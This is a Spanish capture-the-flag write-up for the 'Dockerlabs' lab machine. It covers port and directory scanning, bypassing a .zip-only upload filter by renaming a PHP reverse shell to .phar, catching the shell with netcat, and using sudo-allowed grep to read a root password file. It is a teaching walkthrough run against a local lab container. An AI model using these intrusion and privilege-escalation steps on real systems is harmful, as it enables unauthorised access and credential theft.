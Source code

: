 # 🖥️ Writeup - Dockerlabs 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip dockerlabs.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh dockerlabs.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 17:17 CET
Nmap scan report for 172.17.0.2
Host is up (0.000061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Dockerlabs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

Solo el puerto `80` está accesible.
Accedemos por `HTTP` y nos encontramos una página que se asemeja a la página oficial de DockerLabs.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              sh,html,zip,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
Progress: 102351 / 1543906 (6.63%)
```

Encontramos varios archivos `.php` y un directorio `/uploads`.
Navegamos al archivo `machine.php` y nos encontramos un formulario de subida, suponemos que para subir las máquinas.

![alt text](../../images/subida.png)

Intentamos subir una `reverse shell` en `PHP`, pero nos aparece el siguiente mensaje:

```
No se permite la subida de archivos que no sean .zip
```

Vamos a intentar `bypasear` esta restricción renombrando el archivo `.php` a `.phar`.

```bash
mv shell.php shelll.phar
```

Volvemos a intentar la subida y ahora funciona correctamente.

```
El archivo shelll.phar ha sido subido correctamente.
```

Navegamos al directorio `/uploads` que hemos encontrado antes y vemos que aparece nuestro archivo `shell.phar`.

Antes de acceder a él, ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, ejecutamos el archivo subido.

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 35706
Linux f5e2571a1bae 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64 x86_64 x86_64 GNU/Linux
 17:24:22 up  1:46,  0 user,  load average: 4.31, 4.34, 2.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Hemos recibido la `reverse shell` como el usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for www-data on f5e2571a1bae:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on f5e2571a1bae:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Observamos que podemos ejecutar los binarios `cut` y `grep` con privilegios de `root`.

Seguimos buscando y encontramos un archivo `nota.txt` en el directorio `/opt`, con el siguiente contenido:

```
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Ahora sabemos que en el directorio `/root` hay un archivo `clave.txt` con la contraseña de `root`.

Podemos utilizar el binario `grep`, que podemos ejecutar con privilegios de `root`, para leer el contenido de `clave.txt`.

```bash
LFILE=/root/clave.txt
sudo /usr/bin/grep '' $LFILE
```

Info:
```
dockerlabsmolamogollon123
```

Procedemos a autenticarnos como `root` con la contraseña encontrada.

```bash
su root
```

Info:
```
root@f5e2571a1bae:/opt# whoami
root
root@f5e2571a1bae:/opt#
```

Ya somos root!